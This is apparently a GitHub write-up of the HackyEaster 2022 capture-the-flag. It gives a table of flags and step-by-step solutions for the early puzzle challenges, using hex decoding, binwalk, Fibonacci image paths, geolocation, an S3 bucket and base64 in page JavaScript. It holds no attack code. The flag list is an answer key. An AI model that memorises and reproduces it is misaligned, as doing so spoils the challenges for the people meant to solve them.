









# HackyEaster 2022

The annual Easter CTF from Hacking-lab




## Overview

Title                                            | Points     | Egg
-------------------------------------------------| ---------- | ------------------------------
[Welcome Flag](#welcome-flag)                    | Level 1    | `he2022{welcome_to_hacky_easter_2022}`

[Sp4c3 Inv4d3r5!](#sp4c3-inv4d3r5)               | Level 2    | `he2022{Inv4d3rs_fr0m_sp4c3!}`
[I Key, You Key, ASCII](i-key-you-key-ascii)     | Level 2    | `he2022{th1s_0n3_1s_r3333ly_s1mpl3}`
[Alpha Bravo Charlie](#alpha-bravo-charlie)      | Level 2    | `he2022{phonetic}`

[Fibonacci Rabbits](#fibonacci-rabbits)          | Level 3    | `he2022{th1z_41nT_4_r4bB1T!}`
[Knäck låset](#knäck-låset)                      | Level 3    | `he2022{807}`
[City Trip](#city-trip)                          | Level 3    | `he2022{bayardst}`
[Unicorn](#unicorn)                              | Level 3    | `he2022{1_c_un1c0rns_3v3rywh3r3!}`

[Bucket Egg](#bucket-egg)                        | Level 4    | `he2022{th1s_3gg_1s_1n_4_buck3t}`
[Fire Alert](#fire-alert)                        | Level 4    | `he2022{th1s_fl4g_1s_bl4ck_n0t}`
[Copy Protection Pioneers](#copy-protection-pioneers) | Level 4    | `he2022{J3t-53t-W1llY-f0r3v3R}`
[Statues](#statues)                              | Level 4    | `he2022{achilles}`
[Snoopy](#snoopy)                                | Level 4    | `he2022{ctx1_41nt_3nKryp710n!}`
[LEDs](#leds)                                    | Level 4    | `he2022{n34t_l1ttl3_d3v1c3}`

[Rabbits with Hats](#rabbits-with-hats)          | Level 5    | `he2022{jackrabbitflatwildlifesanctuary}`
[Crypto Bunny](#crypto-bunny)                    | Level 5    |
[Jupiter One](#jupiter-one)                      | Level 5    | `he2022{jim_jupiter_the_healthiest_man_in_chicago!!}`
[Ghost in a Shell 3](#ghost-in-a-shell-3)        | Level 5    | `he2022{0p3n-35-35-37-f0r-pr0fit}`
[Coney Island Hackers](#coney-island-hackers)    | Level 5    | `he2022{el_dorado_arkade}`
[Textbook](#textbook)                            | Level 5    |

[H2O](#h20)                                      | Level 6    |
[Dean's Transfers](#deans-transfers)             | Level 6    | `he2022{d34n_dr1v3s_you_3v3rywh3r3!!}`
[C2 Traffic](#c2-traffic)                        | Level 6    | `he2022{wh4dy4_m3an_32_b1t5_1s_1n53cur3}`
[自動販売機](#自動販売機)                        | Level 6    | `he2022{p0llut10n_41nt_g00d}`
[Dingos!](#dingos)                               | Level 6    | `he2022{4_b4rk1n9_D1NG0_n3v3r_b1735}`
[Cyclic](#cyclic)                                | Level 6    |

[C0ns0n4nt Pl4n3t](#c0ns0n4nt-pl4n3t)            | Level 7    | `he2022{v0w3ls_4r3_f0r_n3rd5!}`
[Layer Cake](#layer-cake)                        | Level 7    | `he2022{th3_c4k3_is_a_l1e!}`
[Jupiter Two](#jupiter-two)                      | Level 7    |
[Casino](#casino)                                | Level 7    |
[Go For Gold](#go-for-gold)                      | Level 7    |
[City Trip 2](#city-trip-2)                      | Level 7    |


## Level 1


### Welcome Flag

**Challenge**

Welcome to Hacky Easter 2022!

Open the file and catch your first flag!

🚩 Flag format: he2022{real_flag_here}

**Solution**

Just a practice level, open a textfile and find the flag:

```
WELCOME TO HACKY EASTER 2022
============================

Well, this is not a real challenge yet, just a quick intro. Some would say sanity check.

EVENT
- The event runs until May 17, 13:37 CET.
- Please do not publish write-ups before that.
- After May 17, all challenges will be opened for everyone, and remain online until end of May.
- There's a Discord server, in case you need support.

CHALLENGES
- Challenges have difficulty noob, easy, medium, or hard.
- Some challenges have a hint - opening the hint is FREE.

LEVELS
- With a certain amount of points scored in the CURRENT level, you level up.
- You can always go back to earlier levels, to solve remaining challenges.

That's it for now. Check the HowTo for more details.


Time to catch the first flag now! Look at the nice ASCII art below!

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxOxxOOOOOOOOOOOxxOxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxx&OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOx&xxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOxxxxxxxxxxxxxxxx
xxxxxxxxxxxxx&OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOxxxxxxxxxxxxx
xxxxxxxxxx&OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO&&O&OOOOOOOOOOOOOOOOOOxxxxxxxxxx
xxxxxxxx&OOOOOOOOOOOOOOO/      (OOOOOOOOOOOOOO        OOOOOOOOOOOOOOOOOOOxxxxxxx
xxxxxx&OOOOOOOOOOOOOOOO(        ,&OOOOOOOOOOO,        &x&OOOOOOOOOOOOOOOOOxxxxxx
xxxxxOOOOOOOOOOOOOOOOOOO         .&x&OOOOOOO&         xxxxxOOOOOOOOOOOOOOOOxxxxx
xxxxOOOOOOOOOOOOOOOOOOOOO          &xxxOOOOO         &xxxxxxxxOOOOOOOOOOOOOOOxxx
xxxOOOOOOOOOOOOOOOOOOOOOOO          &xxxx&O#        .&xxxxxxxxxxOOOOOOOOOOOOOOxx
xxOOOOOOOOOOOOOOOOOOOOOOOOO.         &xxxxx         xxxxxxxxxxxxxxxOOOOOOOOOOO&x
xOOOOOOOOOOOOOOOOOOOOOOOOOOO,                      /xxxxxxxxxxxxxxxxxOOOOOOOOOOx
xOOOOOOOOOOOOOOOOOOOOOOOOOOOO*                     xxxxxxxxxxxxxxxxxxxxxOOOOOOOO
OOOOOOOOOOOOOOOOOOOOOOOOOOOO/    &xx&.      xxx&.    &xxxxxxxxxxxxxxxxxxxxOOOOOO
OOOOOOOOOOOOOOOOOOOOOOOOOOOO    xxxxxx     xxxxx&    #xxxxxxxxxxxxxxxxxxxxxxxOOO
OOOOOOOOOOOOOOOOOOOOOOOOOOOO     &xx&       xxx&.    xxxxxxxxxxxxxxxxxxxxxxxxxxO
OOOOOOOOOOOOOOOOOOOOO&   &OOO/                      &xxxx#xxxxxxxxxxxxxxxxxxxxxx
OOOOOOOOOOOOOOOOOO#        &OOOO*                xxxxxx     #xxxxxxxxxxxxxxxxxxx
OOOOOOOOOOOOOOOOO#            OOOO&x&*  &.  &xxxxxxx           xxxxxxxxxxxxxxxx&
x&OOOOOOOOOOOOOOOOO&xx/           (OOx&&x&&&xxx*              .&xxxxxxxxxxxxxxxx
xxOOOOOOOOOOOOOOOOOOOOxxxxxx&x         xxx.         *x&&xxxxxxxxxxxxxxxxxxxxxxxx
xx&OOOOOOOOOOOOOOOOOOOOO&xxxxxxxxxx,       OO*x&xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxOOOOOOOOOOOOOOOOOOOOOOOx&&x.      ,x       .x&xxxxxxxxxxxxxxxxxxxxxxxxxx&xxx
xxxxxxOOOOOOOOOOO#                *xxxxxxxx&&              ,x&xxxxxxxxxxxxxxxxxx
xxxxxxxOOOOOOOOOOO&.         O&xxxxxxxxxxxxxxxxx&x            xxxxxxxxxxxxxxxxxx
xxxxxxxx&OOOOOOOOOOOO/   /&xxxxxxxxxxxxxxxxxxxxxxxxx&     /&xxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxOOOOOOOOOOOOOxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxx&OOOOOOOOOOOO&xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&xxxxxxxxxxxxx
xxxxxxxxxxxxxxxx&OOOOOOOOOOOOxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&xxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxOOOOOOOOOO&xxxxxxxxxxxxxxxxxxxxxxxxxxx&xxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxOOOO FLAG HERE -> he2022{welcome_to_hacky_easter_2022}
```

**Egg**

```
he2022{welcome_to_hacky_easter_2022}
```


## Level 2

### Sp4c3 Inv4d3r5!

**Challenge**

My favourite game in the 80s was Space Invaders!

[PDF](writeupfiles/spaceinvaders.pdf)

**Solution**

Opening up the pdf we see the following:



Nothing to see with binwalk, so maybe the key is in the images itself.

A Quick google reveals the following space invaders alphabet



Simple transcription (or simply copying and pasting the text into a diffrent font, since it was text) gives us the key:

**Egg**

```
he2022{Inv4d3rs_fr0m_sp4c3!}
```

### Glitch

**Challenge**

I got a flag, but it's glitched somehow.

```
}ɥɔʇᴉしƃ_ǝしʇʇᴉし_ɐ_ʇ己几ɾ{ᄅᄅ０ᄅǝɥ
```

**Solution**
It just a weird upside down font? read backwards and upside down to get the flag

**Egg**

```
he2022{just_a_little_glitch}
```

### I Key, You Key, ASCII

**Challenge**

Look what I was drawing in my text editor!

```
.. .. .. 68 65 32 30 .. .. ..
.. .. 32 ██ ██ ██ ██ 32 .. ..
.. 7b ██ ██ ██ ██ ██ ██ 74 ..
.. 68 ██ ██ ██ ██ ██ ██ 31 ..
73 ██ ██ ██ ██ ██ ██ ██ ██ 5f
30 ██ ██ ██ ██ ██ ██ ██ ██ 6e
33 ██ ██ ██ ██ ██ ██ ██ ██ 5f
31 ██ ██ ██ ██ ██ ██ ██ ██ 73
5f ██ ██ ██ ██ ██ ██ ██ ██ 72
33 ██ ██ ██ ██ ██ ██ ██ ██ 33
33 ██ ██ ██ ██ ██ ██ ██ ██ 33
.. 6c ██ ██ ██ ██ ██ ██ 79 ..
.. 5f ██ ██ ██ ██ ██ ██ 73 ..
.. .. 31 ██ ██ ██ ██ 6d .. ..
.. .. .. 70 6c 33 7d .. .. ..
```

Hint: Cyber Chef

**Solution**

Ignoring everything but the hex values and converting to ascii gives us the flag

**Egg**

```
he2022{th1s_0n3_1s_r3333ly_s1mpl3}
```

### Alhpa Bravo Charlie

**Challenge**

I received a strange message on my walkie-talkie today:

hotel echo two zero two two{papa hotel oscar november echo tango india charlie}

**Solution**

Just [NATO phonetic alphabet](https://en.wikipedia.org/wiki/NATO_phonetic_alphabet)

**Egg**

```
he2022{phonetic}
```


## Level 3

### Fibonacci Rabbits

**Challenge**

Everyone loves rabbits!

http://46.101.107.117:2201

Note: The service is restarted every hour at x:00.

Hint: It is not about the rabbit names.


**Solution**

A website with pictures of bunnies..

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Fibonacci Rabbits</title>
    <link rel="stylesheet" href="style.css" />
    <script>
        if (document.location.search.match(/type=embed/gi)) {
            window.parent.postMessage("resize", "*");
        }
    </script>
</head>
<body translate="no">
    <h1>Fibonacci Rabbits</h1>
    <div id="gallery">
        <div><a href="#">Petal</a></div>
        <div><a href="#">Harley</a></div>
        <div><a href="#">Rosie</a></div>
        <div><a href="#">Petunia</a></div>
        <div><a href="#">Mortimer</a></div>
        <div><a href="#">Henry</a></div>
        <div><a href="#">Miffy</a></div>
        <div><a href="#">E.B.</a></div>
        <div><a href="#">Baxter</a></div>
        <div><a href="#">Archie</a></div>
        <div><a href="#">Murphy</a></div>
        <div><a href="#">Doc</a></div>
        <div><a href="#">Hopper</a></div>
        <div><a href="#">Fluffy</a></div>
        <div><a href="#">Daffodil</a></div>
        <div><a href="#">Buttons</a></div>
        <div><a href="#">Freddie</a></div>
        <div><a href="#">Roger</a></div>
        <div><a href="#">Bucky</a></div>
        <div><a href="#">Oliver</a></div>
        <div><a href="#">Olive</a></div>
        <div><a href="#">Bugs</a></div>
        <div><a href="#">Flower</a></div>
        <div><a href="#">Chester</a></div>
        <div><a href="#">Bubbles</a></div>
        <div><a href="#">Coco</a></div>
        <div><a href="#">Clover</a></div>
    </div>
</body>
</html>
```

These are all fibonacci numbers, specifically the Nth:

```
22, 25, 9, 16, 6, 1, 12, 18, 11, 10, 5, 28, 3, 20, 24, 23, 13, 17, 29, 19, 7, 4, 14, 21, 15, 26, 8
```


```
$ xsel -b | sed 's/^.*rabbit-//g;s/.jpg.*"#">/\t/g;s/<.*//g' | sort -k2
55	Archie
89	Baxter
610	Bubbles
514229	Bucky
3	Bugs
28657	Buttons
10946	Chester
21	Clover
121393	Coco
46368	Daffodil
317811	Doc
2584	E.B.
377	Flower
6765	Fluffy
233	Freddie
75025	Harley
1	Henry
2	Hopper
144	Miffy
8	Mortimer
5	Murphy
13	Olive
4181	Oliver
17711	Petal
987	Petunia
1597	Roger
34	Rosie
```

now what?

```
$ identify rabbit*
rabbit-10946.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 272590B 0.000u 0:00.000
rabbit-121393.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 292910B 0.000u 0:00.000
rabbit-13.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 155592B 0.000u 0:00.000
rabbit-144.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 163366B 0.000u 0:00.000
rabbit-1597.jpg JPEG 1280x960 1280x960+0+0 8-bit sRGB 585421B 0.000u 0:00.000
rabbit-17711.jpg JPEG 1280x719 1280x719+0+0 8-bit sRGB 511271B 0.000u 0:00.000
rabbit-1.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 474764B 0.000u 0:00.000
rabbit-21.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 111550B 0.000u 0:00.000
rabbit-233.jpg JPEG 1280x960 1280x960+0+0 8-bit sRGB 369672B 0.000u 0:00.000
rabbit-2584.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 170860B 0.000u 0:00.000
rabbit-28657.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 262431B 0.000u 0:00.000
rabbit-2.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 226245B 0.000u 0:00.000
rabbit-317811.jpg JPEG 1072x1500 1072x1500+0+0 8-bit sRGB 131508B 0.000u 0:00.000
rabbit-34.jpg JPEG 1280x960 1280x960+0+0 8-bit sRGB 475212B 0.000u 0:00.000
rabbit-377.jpg JPEG 1280x887 1280x887+0+0 8-bit sRGB 373786B 0.000u 0:00.000
rabbit-3.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 436276B 0.000u 0:00.000
rabbit-4181.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 264739B 0.000u 0:00.000
rabbit-46368.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 372928B 0.000u 0:00.000
rabbit-514229.jpg JPEG 1280x768 1280x768+0+0 8-bit sRGB 325076B 0.000u 0:00.000
rabbit-55.jpg JPEG 1280x720 1280x720+0+0 8-bit sRGB 367224B 0.000u 0:00.000
rabbit-5.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 159823B 0.000u 0:00.000
rabbit-610.jpg JPEG 1280x720 1280x720+0+0 8-bit sRGB 151790B 0.000u 0:00.000
rabbit-6765.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 507688B 0.000u 0:00.000
rabbit-75025.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 276286B 0.000u 0:00.000
rabbit-89.jpg JPEG 1280x853 1280x853+0+0 8-bit sRGB 270403B 0.000u 0:00.000
rabbit-8.jpg JPEG 1280x844 1280x844+0+0 8-bit sRGB 569582B 0.000u 0:00.000
rabbit-987.jpg JPEG 1280x806 1280x806+0+0 8-bit sRGB 385891B 0.000u 0:00.000
```

they're all the same width. hmm.


Oh! we are way overthinking this, it looks like the 27th fibonacci number is missing, that is `196418`, so let's see if there is an image under `images/rabbit-196418.jpg`

Bingo!



**Egg**

```
he2022{th1z_41nT_4_r4bB1T!}
```


### Knäck låset

**Challenge**

Knäck the cØde!

```
koda   ✅ 🔀 ❌
2-9-7  1  0  2
2-3-0  0  1  2
7-8-2  0  2  1
5-1-9  0  0  3
5-9-8  0  1  2
```

**Solution**

ok, so its mastermind


```
koda   ✅ 🔀 ❌
2-9-7  1  0  2   # 1: one correct, the 7 (not the 2 because of line 2, not the 9, because of line 4)
2-3-0  0  1  2   # 2: either a 3 or 0 in the code
7-8-2  0  2  1   # 3: 8 in the code (in addition to the 7), must be in first spot
5-1-9  0  0  3   # 4: 5, 1 and 9 not in code
5-9-8  0  1  2   # 5: 8 is in wrong spot

---------------------
8-0-7
```

**Egg**

```
he2022{807}
```


### City Trip

**Challenge**

I made a nice city trip. Find out where I was!

🚩 Flag

    street's name in lowercase and without spaces
    district or city name is not enough, we need the street
    example: Main Rd -> he2022{mainrd}


**Solution**

Seems like we have to find out the location of this image, but it does not appear to be geotagged, hmm..

Helena's first thought was manhattan, and looking at the shop front in bottom right corner it looks like "Manhattan Flo" Florist?

Googling Manhattan florist chinatown gets us to manhattanflorist.com, on Bayard street

**Egg**

```
he2022{bayardst}
```

### Unicorn

**Challenge**


**Solution**

```bash
$ binwalk unicorn.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 512 x 512, 8-bit/color RGBA, non-interlaced
54            0x36            TIFF image data, big-endian, offset of first image directory: 8
106516        0x1A014         PNG image, 512 x 512, 8-bit/color RGBA, non-interlaced
106570        0x1A04A         TIFF image data, big-endian, offset of first image directory: 8
213032        0x34028         PNG image, 512 x 512, 8-bit/color RGBA, non-interlaced
213086        0x3405E         TIFF image data, big-endian, offset of first image directory: 8
319548        0x4E03C         PNG image, 512 x 512, 8-bit/color RGBA, non-interlaced
319686        0x4E0C6         Zlib compressed data, best compression
352486        0x560E6         PNG image, 512 x 512, 8-bit/color RGBA, non-interlaced
352540        0x5611C         TIFF image data, big-endian, offset of first image directory: 8
459002        0x700FA         PNG image, 512 x 512, 8-bit/color RGBA, non-interlaced
459056        0x70130         TIFF image data, big-endian, offset of first image directory: 8
```

We can extract the images with:

```bash
$ binwalk -e --dd=png unicorn.png
```

We get several copies of the unicorn image, but also one of an easter egg with a QR code, score!


**Egg**

```
he2022{1_c_un1c0rns_3v3rywh3r3!}
```

## Level 4

### Bucket Egg

**Challenge**

My Irish friend told me about his new web site. He told me it was in a bucket named egg-in-a-bucket. No clue what that is...

**Solution**

They're an "irish" friend, so, eu-west-1 is the appropriate region: [http://egg-in-a-bucket.s3-website-eu-west-1.amazonaws.com/](http://egg-in-a-bucket.s3-website-eu-west-1.amazonaws.com/)


**Egg**

```
he2022{th1s_3gg_1s_1n_4_buck3t}
```

### Fire Alert

**Challenge**

In case of fire, break the glass and press the button.

http://46.101.107.117:2204

Note: The service is restarted every hour at x:00.

**Solution**


We see a website with a button, it logs some color lines to the console, but it looks like also a flag

```js
function firealert() {
    console.log("%c x", "color:transparent; border-left: 1000px solid lightgreen;");console.log("%c x", "color:transparent; border-left: 1000px solid blue;");
    console.log("%c x", "color:transparent; border-left: 1000px solid red;");console.log("%c x", "color:transparent; border-left: 1000px solid tomato;");
    console.log("%c x", "color:transparent; border-left: 1000px solid darkgray;");console.log("%c x", "color:transparent; border-left: 1000px solid yellow;");
    console.log("%c x", "color:transparent; border-left: 1000px solid black;");console.log(atob("JWMgZmxhZzogaGUyMDIye3RoMXNfZmw0Z18xc19ibDRja19uMHR9"), "color:transparent; border-left: 1000px solid magenta;");
    console.log("%c x", "color:transparent; border-left: 1000px solid purple;");console.log("%c x", "color:transparent; border-left: 1000px solid lightblue;");
    console.log("%c x", "color:transparent; border-left: 1000px solid green;");console.log("%c x", "color:transparent; border-left: 1000px solid gray;");
    window.location.href='https://www.youtube.com/watch?v=0oBx7Jg4m-o';
}
setInterval(function() {
    document.body.style.backgroundColor = "#" + Math.floor(Math.random()*16777215).toString(16);
}, 1000)

```

Running `atob("JWMgZmxhZzogaGUyMDIye3RoMXNfZmw0Z18xc19ibDRja19uMHR9")` it the console gets us our flag


**Egg**

```
he2022{th1s_fl4g_1s_bl4ck_n0t}
```

### Copy Protection Pioneers

**Challenge**

The copy protection pioneers were really creative and lived the jet set life.

http://46.101.107.117:2209

Note: The service is restarted every hour at x:00.

**Solution**
